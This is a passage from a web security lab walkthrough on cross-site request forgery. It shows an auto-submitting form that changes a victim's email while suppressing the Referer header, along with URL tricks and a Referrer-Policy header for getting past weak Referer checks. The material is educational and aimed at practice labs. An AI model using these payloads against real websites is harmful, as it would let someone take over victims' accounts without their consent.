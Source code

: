 Delete the __Referer__ header, click Send. Observe that the request is now accepted. 

```
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Create and host a proof of concept exploit and include the `<meta name="referrer" content="no-referrer">` to suppress the Referer header:

```
<meta name="referrer" content="no-referrer">
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

Click "Store" and then "Deliver exploit to victim" to solve the lab.

> NOTE: Skipping OWASP Zed Attack Proxy walkthrough of this lab. These functions of ZAP are already extensively covered.

## Validation of Referer can be circumvented

Some applications perform overly simplistic checks on the __Referer__ header, making them vulnerable to bypasses. For instance, if the app only checks that the __Referer__ domain starts with a certain string, an attacker can exploit this by embedding that domain as a subdomain of their own:

```
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Similarly, if the validation merely looks for the presence of the trusted domain anywhere in the __Referer__, an attacker can include it in a query parameter:

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

> NOTE: While tools like Burp Suite might show these tricks working, browsers often strip out query strings from the __Referer__ header to protect sensitive information. To prevent this stripping and ensure the full URL is sent, you can include the following header in your exploit's response:

```
Referrer-Policy: unsafe-url
```

### Lab: CSRF with broken Referer validation

In Burp's browser log into the lab as `wiener:peter` and update your email. Navigate to `POST /my-account/change-email` request in __Proxy__ > __HTTP history__. 

Send the request to __Repeater__ and change the domain in `Referer` header and click Send. Notice that the request is rejected.
